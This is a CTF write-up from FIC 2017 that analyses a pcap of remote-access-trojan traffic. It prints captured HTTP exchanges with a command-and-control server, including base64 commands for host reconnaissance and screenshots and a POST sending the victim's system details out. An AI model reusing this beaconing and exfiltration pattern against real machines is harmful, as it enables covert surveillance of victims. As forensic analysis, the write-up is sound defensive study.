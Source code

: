 ## FIC2k17

Here we are, the end of the two days of FIC 2k17 ! It was great, everyone meet some news security company, and all my teammate were there to play the ACISSI challenges and the EPITA one the next day.

So I am gonna write some WriteUp'z and this is the firts one !

## RAT pcap

The challenge start with a pcapng, a huge one. So l'ets analyse it. 

We know that it's a RAT, so let's start with a HTTP Filter ..

![wireshark_RAT1](/public/images/wireshark_RAT1.png)

After checking all the http gateway packets, we find that the virus is checking a CnC each some seconds. The CnC return what to do to the virus by HTTP simple content encoded in BASE64.

exemple of command : 

```
GET /gate/command/VOzxzr8tuWOyNVEy76wEu3ifivHjgkDSxZjwVsjP/ HTTP/1.1
Host: 163.5.55.17:52140
User-Agent: python-requests/2.10.0
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*



HTTP/1.0 200 OK
Date: Tue, 19 Jul 2016 10:13:12 GMT
Server: WSGIServer/0.2 CPython/3.5.0+
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN

eyJjbWQiOiAiZ2VuZXJpY19nZXRfaG9zdF9pbmZvcyIsICJrd2FyZ3MiOiB7fX0=

---

$ echo "eyJjbWQiOiAiZ2VuZXJpY19nZXRfaG9zdF9pbmZvcyIsICJrd2FyZ3MiOiB7fX0=" | base64 -d

{"cmd": "generic_get_host_infos", "kwargs": {}}


--- Response :

POST /gate/command/sync/VOzxzr8tuWOyNVEy76wEu3ifivHjgkDSxZjwVsjP/ HTTP/1.1
Host: 163.5.55.17:52140
User-Agent: python-requests/2.10.0
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
Content-Length: 91
Content-Type: application/x-www-form-urlencoded

arch=AMD64&release=8&os=Windows&version=6.2.9200&public_ip=184.75.221.115&hostname=Win8-sec

HTTP/1.0 200 OK
Date: Tue, 19 Jul 2016 10:13:13 GMT
Server: WSGIServer/0.2 CPython/3.5.0+
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN

e30=

---
$ echo "e30=" | base64 -d

{}
```

This is intresting, let's go a bit deeper inside this communication ! 

By going a "bit deeper", I found a screenshot command :  

```
GET /gate/command/VOzxzr8tuWOyNVEy76wEu3ifivHjgkDSxZjwVsjP/ HTTP/1.1
Host: 163.5.55.17:52140
User-Agent: python-requests/2.10.0
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*


HTTP/1.0 200 OK
Date: Tue, 19 Jul 2016 10:13:30 GMT
Server: WSGIServer/0.2 CPython/3.5.0+
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN

eyJjbWQiOiAid2luZG93c19zY3JlZW5zaG90IiwgImt3YXJncyI6IHt9fQ==

---

$ echo "eyJjbWQiOiAid2luZG93c19zY3JlZW5zaG90IiwgImt3YXJncyI6IHt9fQ==" | base64 -d                                                                                                                                                                          0|09:52:10

{"cmd": "windows_screenshot", "kwargs": {}}
```


By Extracting all the screenshot via the save as option in the follow TCP Stream menu, I found the flag in a mspaint window :

![RAT_flag](/public/images/RAT_flag.png)

Great Na ?



